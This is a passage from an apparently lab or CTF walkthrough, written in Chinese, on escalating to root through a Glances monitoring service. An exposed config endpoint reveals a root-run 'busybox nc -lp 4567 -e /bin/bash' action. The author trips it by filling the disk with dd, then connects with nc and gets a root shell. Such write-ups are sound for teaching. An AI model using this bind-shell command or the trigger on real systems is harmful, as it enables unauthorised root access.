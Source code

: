 发现`ll`用户可以免密码以root权限执行`/usr/bin/toilet`命令，这个命令是兔子洞。

## 3.3 发现高权限服务：Glances

在目标主机上，使用`ss -tnlp`查看网络连接情况，寻找可能由高权限用户启动的、未被外网扫描发现的服务。

```bash
ll@104567:~$ ss -tnlp
State    Recv-Q   Send-Q     Local Address:Port      Peer Address:Port
...
LISTEN   0        128              0.0.0.0:61208          0.0.0.0:*
...
```

发现了一个新的`61208`端口正在监听。回到Kali，扫描该端口，确认其运行着一个`Glances`系统监控服务，并且通过目录扫描和访问`/openapi.json`，确认这是一个API版本为V4的Glances服务。

## 3.4 配置文件信息泄露与命令执行漏洞

根据API文档，`/api/4/config`端点存在信息泄露漏洞，可以读取Glances的配置文件。

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.205.156:61208/api/4/config | jq
{
  "fs": {
    "warning": "80",
    "warning_action": "busybox nc -lp 4567 -e /bin/bash",
    "careful": "50",
    "critical": "90"
  },
...
}
```

配置文件中存在一个致命的配置项`warning_action`。当文件系统使用率达到80%时，由于Glances服务是以root权限运行的，系统会以**root权限**执行预设命令`busybox nc -lp 4567 -e /bin/bash`，从而开启一个监听在4567端口的绑定型shell。

## 3.5 触发漏洞并获取Root Shell

我们只需在目标机上创建一个大文件，使磁盘占用率超过80%即可触发该动作。根据主机信息，创建一个21G的文件足以触发。

在`ll`用户的shell中执行：

```bash
ll@104567:~$ dd if=/dev/zero of=/tmp/bigfile bs=1G count=21
22548578304 bytes (23 GB, 21 GiB) copied...
```

文件创建完成后，立即从Kali连接目标机开启的4567端口。

```bash
┌──(kali㉿kali)-[~]
└─$ nc 192.168.205.156 4567
id
uid=0(root) gid=0(root) groups=0(root)
```
